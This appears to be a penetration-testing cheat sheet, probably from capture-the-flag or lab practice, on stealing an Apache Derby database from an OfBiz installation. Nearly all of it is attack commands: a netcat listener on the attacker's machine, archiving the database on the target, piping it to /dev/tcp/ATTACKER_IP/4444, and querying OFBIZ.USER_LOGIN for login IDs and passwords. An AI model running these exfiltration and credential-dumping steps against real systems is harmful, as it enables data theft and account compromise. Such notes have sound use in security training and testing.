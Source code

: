 # Apache Derby Embedded Java Database

### Encountered in applications: 

#### 1) OfBiz (Location: /opt/ofbiz)

## Database extraction

### Steps

## Attacker

    sudo apt install derby-tools (Install the tool needed to interact with the database)

    nc -nlvp 4444 > ofbiz.tar (On attacking machine, run netcat to open a port, then send all data to the .jar file to download the database)

## Target Machine

    cd /opt/ofbiz/runtime/data/derby

    tar cvf ofbiz.tar ofbiz

    cat ofbiz.tar > /dev/tcp/ATTACKER_IP/4444 (Compress the entire database with tar, then write all data to our listener)

## Once downloaded, we extract the archive and use ij to inspect the database on our attacking machine

    tar xvf ofbiz.tar

    ij

## Now, on the ij terminal, we try to connect to the database by typing the commands:

    ij> connect 'jdbc:derby:./ofbiz';

## Use regular SQL statements to extract data from the database

    SHOW TABLES;

    SELECT * FROM OFBIZ.USER_LOGIN;

    SELECT USER_LOGIN_ID,CURRENT_PASSWORD FROM OFBIZ.USER_LOGIN;
